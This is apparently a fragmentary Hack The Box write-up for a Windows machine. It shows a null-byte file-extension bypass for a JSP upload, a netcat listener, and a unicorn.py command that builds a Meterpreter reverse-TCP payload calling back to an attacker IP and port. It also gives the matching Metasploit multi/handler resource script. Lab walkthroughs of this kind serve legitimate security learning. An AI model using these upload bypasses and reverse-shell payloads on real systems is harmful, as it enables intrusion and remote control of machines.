 /MHWT.jsp%00 => null byte no extension check

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/20.jpg)

##### make a netcat listener

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/21.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/22.jpg)

> that jsp file is injected by metasploit and when we run it execute.
- got an shell

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/23.jpg)

##### create an meterpreter shell
###### unicorn.py used to create mterpreter shell for windows

```py
python unicorn.py windows/meterpreter/reverse_tcp 10.10.16.225 31337
```

- tell about how to execute in meterpreter
unicorn
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/24.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/25.jpg)

- powershell script for creating shell code 

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.16.225
set LPORT 31337
set ExitOnSession false
set AutoVerifySession false
set AutoSystemInfo false
set AutoLoadStdapi false
exploit -j
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/26.jpg)

```sh
msfconsole -r unicorn.rc
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/27.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/28.jpg)
- copy to clipboard
